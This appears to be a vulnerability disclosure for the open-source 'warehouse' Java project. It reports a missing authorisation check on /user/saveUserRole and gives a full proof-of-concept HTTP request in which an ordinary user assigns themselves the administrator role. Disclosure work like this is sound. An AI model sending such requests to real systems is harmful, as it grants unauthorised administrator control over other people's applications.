




## Vertical privilege escalation Vulnerability
I discovered a vertical privilege escalation vulnerability in `UserController.java` of the project https://github.com/yeqifu/warehouse
`warehouse\src\main\java\com\yeqifu\sys\controller\UserController.java`

Ideally, only administrators can assign roles to users.However, this route did not perform identity verification when processing requests related to user-role relationships, resulting in vertical privilege escalation.

An ordinary user can exploit this vulnerability to send a request packet, granting themselves system administrator privileges, thereby elevating their permissions and effectively transforming them into a system administrator.
## Poc

```
POST /user/saveUserRole HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://localhost:8888/sys/toSignOut
Connection: close
Cookie: JSESSIONID=9551835BBDA3C718BDE26178E4DAA15C
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

uid=5&ids=1
```
Log in as an ordinary user.

Attackers can specify their own account through the `uid` parameter, and specify the system role to be assigned through the `ids` parameter.

Successfully executing this operation and set the current user to the system administrator role.
